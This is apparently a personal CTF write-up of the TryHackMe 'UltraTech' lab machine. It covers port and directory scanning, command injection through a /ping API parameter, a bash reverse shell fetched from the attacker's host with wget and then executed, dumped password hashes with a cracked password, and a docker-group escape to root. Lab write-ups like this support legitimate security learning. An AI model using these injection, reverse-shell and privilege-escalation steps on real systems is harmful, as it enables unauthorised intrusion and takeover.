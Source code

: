 # Info

## IP = 10.10.186.2

# Ports

## PortScanning
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ nmap 10.10.186.2       
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-10 21:05 EDT
Nmap scan report for 10.10.186.2
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
```
```bash
sudo nmap -p- -sS 10.10.186.2 
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
```

## Software Versions
```bash
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.18 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- _ubuntu_ is the distribution used

## 21
```bash
21/tcp   open  ftp     vsftpd 3.0.3
```
- without `anonymous` user ;-;

## 22
```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
```

## 8081
```bash
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
- _node.js_ is the software

### Web Searching
- UltraTech API v0.1.3

### `gobuster`
```bash
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
```

### _/auth_
- get params are: **login** and **password**

### _/ping_
- get params are: **ip**
- RCE?
    - remove ';', '|', '&', '$'
    - error in ``8.8.8.8$(ls)``: `/bin/sh: 1: Syntax error: word unexpected (expecting ")")`
    - works with "\`\`" symbols
    - create _rev shell_ with:

```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ echo "bash -i >& /dev/tcp/10.2.54.222/1234 0>&1" > shell.sh
                                                                             
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/UltraTech]
└─$ python -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8000/) ...
```
```
# Request with following param:
ip = `wget http://10.2.52.222:80/shell.sh -o shell.sh`

# Doesn't work, so I tried this:
ip = `wget 10.2.54.222/shell.sh -o shell.sh`

# It worked! So I tried this (with open port in attack machine):
ip = `bash shell.sh`

# I got a shell!
```


## 31331
### `gobuster` directory-list-2.3-medium.txt
```bash
/images               (Status: 301) [Size: 320] [--> http://10.10.186.2:31331/images/]                                                                    
/css                  (Status: 301) [Size: 317] [--> http://10.10.186.2:31331/css/]                                                                       
/js                   (Status: 301) [Size: 316] [--> http://10.10.186.2:31331/js/]                                                                        
/javascript           (Status: 301) [Size: 324] [--> http://10.10.186.2:31331/javascript/]
```
### `gobuster` common.txt
```bash
/css                  (Status: 301) [Size: 317] [--> http://10.10.186.2:31331/css/]                                                                       
/favicon.ico          (Status: 200) [Size: 15086]
/images               (Status: 301) [Size: 320] [--> http://10.10.186.2:31331/images/]                                                                    
/index.html           (Status: 200) [Size: 6092]
/javascript           (Status: 301) [Size: 324] [--> http://10.10.186.2:31331/javascript/]                                                                
/js                   (Status: 301) [Size: 316] [--> http://10.10.186.2:31331/js/]                                                                        
/robots.txt           (Status: 200) [Size: 53]
```

### _/js_
- _api.js_
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

### _/robots.txt_
- /utech_sitemap.txt

### _/utech_sitemap.txt_
- /index.html
- /what.html
- /partners.html

# PrivEsc

## Searching
- in _/home/www/api_, I found a _utech.db.sqlite_

```bash
www@ultratech-prod:~/api$ cat utech.db.sqlite
cat utech.db.sqlite
zz��etableusersusersCREATE TABLE users (
            login Varchar,
            password Varchar,
            type Int
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84
```

- in "https://crackstation.net/", I throw the hash `https://crackstation.net/` and I got `n100906` as password

## ssh with `r00t:n100906`
- got `r00t` shell (isn't root ;-;)

## _linpeas.sh_
- uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
- https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker
```bash
r00t@ultratech-prod:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
r00t@ultratech-prod:/tmp$ docker run -it -v /:/host/ 495d6437fc1e chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ae4466070836:/# whoami
root
```

## In Docker, I found a private ssh key
- check the first 9 chars and GG =D
